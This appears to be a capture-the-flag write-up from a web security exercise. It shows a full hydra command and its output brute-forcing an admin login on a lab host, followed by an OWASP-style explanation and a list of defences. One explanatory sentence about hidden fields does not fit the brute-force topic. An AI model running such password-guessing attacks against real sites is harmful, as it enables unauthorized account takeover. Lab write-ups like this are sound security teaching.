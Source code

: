 # Bruteforce(member)

From coookies we know for sure that there is a user with login `admin`. Let's try to bruteforce the password for it.
[Here](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials) we have the most common passwords.

We use `hydra` to iterate through them:

```
daiseed@DESKTOP:~/darkly$ hydra -l admin -P ./500-worst-passwords.txt -F 192.168.31.135 http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-18 01:03:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 101 login tries (l:1/p:101), ~7 tries per task
[DATA] attacking http-get-form://192.168.31.135:80/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif
[80][http-get-form] host: 192.168.31.135   login: admin   password: shadow
[STATUS] attack finished for 192.168.31.135 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-18 01:03:43
```

We have admin's password: `shadow`

Input `admin:shadow` into Login page and we have our flag

## Explanation

Attack type: [Brute force attack](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)

> A common threat web developers face is a password-guessing attack known as a brute force attack. A brute-force attack is an attempt to discover a password by systematically trying every possible combination of letters, numbers, and symbols until you discover the one correct combination that works. If your web site requires user authentication, you are a good target for a brute-force attack.

Once the adversary has determined which hidden fields are not being validated by the server, they will manipulate them to change the normal behavior of the web application in a way that benefits the adversary.

## How to fix it

Below are several solitions to brute force attack. All of them have their own downsides and limitations, attackers can often circumvent many of these techniques by themselves, but by combining several techniques, you can significantly limit brute-force attacks.

1) Lock out accounts after a defined number of incorrect password attempts
2) Since the success of the attack is dependent on time, an easy solution is to inject random pauses when checking a password
3) Lock out an IP address with multiple failed logins
4) Design your Website not to use predictable behavior for failed passwords
5) After one or two failed login attempts, you may want to prompt the user not only for the username and password but also to answer a secret question
6) For advanced users who want to protect their accounts from attack, give them the option to allow login only from certain IP addresses.
7) Assign unique login URLs to blocks of users so that not all users can access the site from the same URL.
8) Use a CAPTCHA to prevent automated attacks
9) Instead of completely locking out an account, place it in a lockdown mode with limited capabilities.

Although brute-force attacks are difficult to stop completely, they are easy to detect because each failed login attempt records an HTTP 401 status code in your Web server logs. It is important to monitor your logfiles for brute-force attacks – in particular, the intermingled 200 statuscodes that mean the attacker found a valid password.